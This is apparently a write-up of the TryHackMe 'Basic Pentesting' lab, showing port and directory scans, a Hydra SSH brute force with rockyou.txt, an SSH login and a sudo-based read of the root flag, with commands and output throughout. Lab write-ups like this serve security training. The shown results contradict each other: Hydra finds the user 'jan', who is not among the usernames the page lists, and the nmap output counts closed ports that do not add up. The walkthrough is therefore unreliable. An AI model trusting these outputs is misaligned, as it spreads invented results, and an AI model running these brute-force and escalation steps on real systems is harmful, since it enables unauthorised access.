 # TryHackMe - Basic Pentesting

## Challenge Information

| Field | Value |
|-------|-------|
| **Platform** | TryHackMe |
| **Challenge Name** | Basic Pentesting |
| **Category** | Web Exploitation |
| **Difficulty** | Easy |
| **Points** | 20 |
| **Author** | TryHackMe |
| **Date Completed** | 2025-08-26 |

## Objective 🎯

Basic Pentesting is a beginner-friendly room that covers fundamental penetration testing techniques. The goal is to enumerate services, exploit vulnerabilities, and gain access to the target system. Perfect for learning the basics! 🔍

## Initial Reconnaissance

### Target Information
- **IP Address**: 10.10.10.10
- **OS**: Linux
- **Services**: HTTP, SSH

### Tools Used
- Nmap
- Gobuster
- Hydra
- SSH

### Commands/Steps
```bash
nmap -sC -sV 10.10.10.10
```

## Methodology

### Step 1: Port Scan
Perform a comprehensive port scan to identify open services.

**Command/Code:**
```bash
nmap -sC -sV 10.10.10.10
```

**Output:**
```
Starting Nmap 7.80 ( https://nmap.org ) at 2025-08-26 10:00 UTC
Nmap scan report for 10.10.10.10
Host is up (0.045s latency).
Not shown: 991 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Step 2: Web Service Enumeration
Check the web service for directories and files.

**Command/Code:**
```bash
gobuster dir -u http://10.10.10.10/ -w /usr/share/wordlists/dirb/common.txt
```

**Output:**
```
/admin                (Status: 301) [Size: 312] [--> http://10.10.10.10/admin/]
/development          (Status: 301) [Size: 325] [--> http://10.10.10.10/development/]
```

### Step 3: Directory Enumeration
Check the development directory for useful information.

**Command/Code:**
```bash
curl http://10.10.10.10/development/
```

**Output:**
```
<html>
<head><title>Development</title></head>
<body>
<h1>Development</h1>
<p>Potential usernames: admin, kyle, marcus, jane</p>
</body>
</html>
```

### Step 4: SSH Brute Force
Use Hydra to brute force SSH with the discovered usernames.

**Command/Code:**
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10
```

**Output:**
```
[22][ssh] host: 10.10.10.10   login: jan   password: armando
```

### Step 5: SSH Access
Connect to the target system using the discovered credentials.

**Command/Code:**
```bash
ssh jan@10.10.10.10
```

**Output:**
```
jan@basic-pentesting:~$ whoami
jan
```

### Step 6: Privilege Escalation
Check for privilege escalation opportunities.

**Command/Code:**
```bash
sudo -l
find / -perm -4000 2>/dev/null
```

**Output:**
```
User jan may run the following commands on basic-pentesting:
    (root) NOPASSWD: /bin/cat
```

### Step 7: Root Access
Use the sudo privilege to read the root flag.

**Command/Code:**
```bash
sudo cat /root/root.txt
```

**Output:**
```
[REDACTED]
```

### Step 8: User Flag
Find and read the user flag.

**Command/Code:**
```bash
find / -name "user.txt" 2>/dev/null
cat /home/jan/user.txt
```

**Output:**
```
[REDACTED]
```

## Solution

### Final Answer
- **User Flag**: [REDACTED]
- **Root Flag**: [REDACTED]

### Complete Walkthrough
1. Perform port scan to identify open services
2. Enumerate web directories with Gobuster
3. Discover potential usernames in development directory
4. Use Hydra to brute force SSH credentials
5. Gain initial access as user 'jan'
6. Find sudo privilege for /bin/cat
7. Use sudo cat to read root flag
8. Find and read user flag

## Key Learnings 💡

- Web directory enumeration techniques
- SSH brute force attacks with Hydra
- Sudo privilege escalation
- Basic Linux privilege escalation
- Information gathering from web services

## Tools and Resources

### Tools Used
- **Nmap**: Network scanning and service detection
- **Gobuster**: Directory enumeration
- **Hydra**: Password brute forcing
- **SSH**: Remote access

### References
- [TryHackMe Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)
- [Hydra Documentation](https://github.com/vanhauser-thc/thc-hydra)

## Tags

`#tryhackme` `#web` `#ssh` `#brute-force` `#privilege-escalation` `#easy`
